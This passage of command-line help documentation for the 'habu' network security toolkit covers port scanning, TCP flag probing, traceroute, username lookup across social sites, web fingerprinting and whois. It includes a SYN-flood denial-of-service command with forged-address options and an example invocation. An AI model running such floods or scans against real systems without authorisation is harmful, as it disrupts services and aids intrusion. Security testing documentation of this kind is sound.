                 ]
             }
         ],
         "ports": [
             53
         ]
     }

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.synflood
-------------

.. code-block::

   Usage: habu.synflood [OPTIONS] IP

     Launch a lot of TCP connections and keeps them opened.

     Some very old systems can suffer a Denial of Service with this.

     Reference: https://en.wikipedia.org/wiki/SYN_flood

     Example:

     # sudo habu.synflood 172.16.0.10
     .................

     Each dot is a packet sent.

     You can use the options '-2' and '-3' to forge the layer 2/3 addresses.

     If you use them, each connection will be sent from a random layer2 (MAC)
     and/or layer3 (IP) address.

     You can choose the number of connections to create with the option '-c'.
     The default is never stop creating connections.

     Note: If you send the packets from your real IP address and you want to
     keep the connections half-open, you need to setup for firewall to don't
     send the RST packets.

   Options:
     -i TEXT     Wich interface to use (default: auto)
     -c INTEGER  How many packets send (default: infinit)
     -p INTEGER  Port to use (default: 135)
     -2          Forge layer2/MAC address (default: No)
     -3          Forge layer3/IP address (default: No)
     -v          Verbose
     --help      Show this message and exit.

habu.tcpflags
-------------

.. code-block::

   Usage: habu.tcpflags [OPTIONS] IP

     Send TCP packets with different flags and tell what responses receives.

     It can be used to analyze how the different TCP/IP stack implementations
     and configurations responds to packet with various flag combinations.

     Example:

     # habu.tcpflags www.portantier.com
     S  -> SA
     FS -> SA
     FA -> R
     SA -> R

     By default, the command sends all possible flag combinations. You can
     specify which flags must ever be present (reducing the quantity of
     possible combinations), with the option '-f'.

     Also, you can specify which flags you want to be present on the response
     packets to show, with the option '-r'.

     With the next command, you see all the possible combinations that have the
     FIN (F) flag set and generates a response that contains the RST (R) flag.

     Example:

     # habu.tcpflags -f F -r R www.portantier.com
     FPA  -> R
     FSPA -> R
     FAU  -> R

   Options:
     -p INTEGER  Port to use (default: 80)
     -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
     -r TEXT     Filter by response flags (default: show all responses)
     -v          Verbose
     --help      Show this message and exit.

habu.tcpscan
------------

.. code-block::

   Usage: habu.tcpscan [OPTIONS] IP

     TCP Port Scanner.

     Print the ports that generated a response with the SYN flag or (if show
     use -a) all the ports that generated a response.

     It's really basic compared with nmap, but who is comparing?

     Example:

     # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
     22 S -> SA
     80 S -> SA
     443 S -> SA

   Options:
     -p TEXT     Ports to use (default: 80) example: 20-23,80,135
     -i TEXT     Interface to use
     -f TEXT     Flags to use (default: S)
     -s TEXT     Time between probes (default: send all together)
     -t INTEGER  Timeout for each probe (default: 2 seconds)
     -a          Show all responses (default: Only containing SYN flag)
     -v          Verbose output
     --help      Show this message and exit.

habu.traceroute
---------------

.. code-block::

   Usage: habu.traceroute [OPTIONS] IP

     TCP traceroute.

     Identify the path to a destination getting the ttl-zero-during-transit
     messages.

     Note: On the internet, you can have various valid paths to a device.

     Example:

     # habu.traceroute 45.77.113.133
     IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
     IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
     IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
     .
     IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
     .
     IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding

     Note: It's better if you use a port that is open on the remote system.

   Options:
     -p INTEGER  Port to use (default: 80)
     -i TEXT     Interface to use
     --help      Show this message and exit.

habu.usercheck
--------------

.. code-block::

   Usage: habu.usercheck [OPTIONS] USERNAME

     Check if the given username exists on various social networks and other
     popular sites.

     $ habu.usercheck portantier
     {
         "aboutme": "https://about.me/portantier",
         "disqus": "https://disqus.com/by/portantier/",
         "github": "https://github.com/portantier/",
         "ifttt": "https://ifttt.com/p/portantier",
         "lastfm": "https://www.last.fm/user/portantier",
         "medium": "https://medium.com/@portantier",
         "pastebin": "https://pastebin.com/u/portantier",
         "pinterest": "https://in.pinterest.com/portantier/",
         "twitter": "https://twitter.com/portantier",
         "vimeo": "https://vimeo.com/portantier"
     }

   Options:
     -c      Disable cache
     -v      Verbose output
     -w      Open each valid url in a webbrowser
     --help  Show this message and exit.

habu.vhosts
-----------

.. code-block::

   Usage: habu.vhosts [OPTIONS] HOST

     Use Bing to query the websites hosted on the same IP address.

     $ habu.vhosts www.telefonica.com
     www.telefonica.com -> 212.170.36.79
     [
         'www.telefonica.es',
         'universitas.telefonica.com',
         'www.telefonica.com',
     ]

   Options:
     -c          Disable cache
     -p INTEGER  Pages count (Default: 10)
     -f INTEGER  First result to get (Default: 1)
     --help      Show this message and exit.

habu.virustotal
---------------

.. code-block::

   Usage: habu.virustotal [OPTIONS] INPUT

     Send a file to VirusTotal https://www.virustotal.com/ and print the report
     in JSON format.

     Note: Before send a file, will check if the file has been analyzed before
     (sending the sha256 of the file), if a report exists, no submission will
     be made, and you will see the last report.

     $ habu.virustotal meterpreter.exe
     Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
     Sending file for analysis
     Waiting/retrieving the report...
     {
         "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
         "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
         "positives": 49,
         "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
         "response_code": 1,
         "scan_date": "2018-05-20 21:11:57",
         "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
         "scans": {
             "ALYac": {
                 "detected": true,
                 "result": "Trojan.CryptZ.Gen",
                 "update": "20180520",
                 "version": "1.1.1.5"
             },
             ... The other scanners ...
         },
         "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
         "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
         "total": 67,
         "verbose_msg": "Scan finished, information embedded"
     }

   Options:
     -v      Verbose output
     --help  Show this message and exit.

habu.webid
----------

.. code-block::

   Usage: habu.webid [OPTIONS] URL

     Use Wappalyzer apps.json database to identify technologies used on a web
     application.

     Reference: https://github.com/AliasIO/Wappalyzer

     Note: This tool only sends one request. So, it's stealth and not
     suspicious.

     $ habu.webid https://woocomerce.com
     {
         "Nginx": {
             "categories": [
                 "Web Servers"
             ]
         },
         "PHP": {
             "categories": [
                 "Programming Languages"
             ]
         },
         "WooCommerce": {
             "categories": [
                 "Ecommerce"
             ],
             "version": "6.3.1"
         },
         "WordPress": {
             "categories": [
                 "CMS",
                 "Blogs"
             ]
         },
     }

   Options:
     -c      Disable cache
     -v      Verbose output
     --help  Show this message and exit.

habu.web.report
---------------

.. code-block::

   Usage: habu.web.report [OPTIONS] [F]

     Uses Firefox to take a screenshot of the websites. (you need firefox
     installed, obviously)

     Makes a report that includes the HTTP headers.

     The expected format is one url per line.

     Creates a directory called 'report' with the content inside.

     $ echo https://www.portantier.com | habu.web.report

   Options:
     -v      Verbose output
     --help  Show this message and exit.

habu.web.screenshot
-------------------

.. code-block::

   Usage: habu.web.screenshot [OPTIONS] URL

     Uses Firefox to take a screenshot (you need firefox installed, obviously)

     $ habu.web.screenshot https://www.portantier.com

   Options:
     -o TEXT  Output file. (default: screenshot.png)
     --help   Show this message and exit.

habu.whois.domain
-----------------

.. code-block::

   Usage: habu.whois.domain [OPTIONS] DOMAIN

     Simple whois client to check domain names.

     Example:

     $ habu.whois.domain portantier.com
     {
         "domain_name": "portantier.com",
         "registrar": "Amazon Registrar, Inc.",
         "whois_server": "whois.registrar.amazon.com",
         ...

   Options:
     --help  Show this message and exit.

habu.whois.ip
-------------

.. code-block::

   Usage: habu.whois.ip [OPTIONS] IP

     Simple whois client to check IP addresses (IPv4 and IPv6).

     Example:

     $ habu.whois.ip 8.8.8.8
     {
         "nir": null,
         "asn_registry": "arin",
         "asn": "15169",
         "asn_cidr": "8.8.8.0/24",
         "asn_country_code": "US",
         "asn_date": "1992-12-01",
         "asn_description": "GOOGLE - Google LLC, US",
         "query": "8.8.8.8",
         ...

   Options:
     --help  Show this message and exit.

habu.xor
--------

.. code-block::

   Usage: habu.xor [OPTIONS]

     XOR cipher.

     Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
     algorithms like AES. You can use habu.fernet for that.

     Example:

     $ habu.xor -k mysecretkey -i /bin/ls > xored
     $ habu.xor -k mysecretkey -i xored > uxored
     $ sha1sum /bin/ls uxored
     $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
     $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored

   Options:
     -k TEXT      Encryption key
     -i FILENAME  Input file (default: stdin)
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.
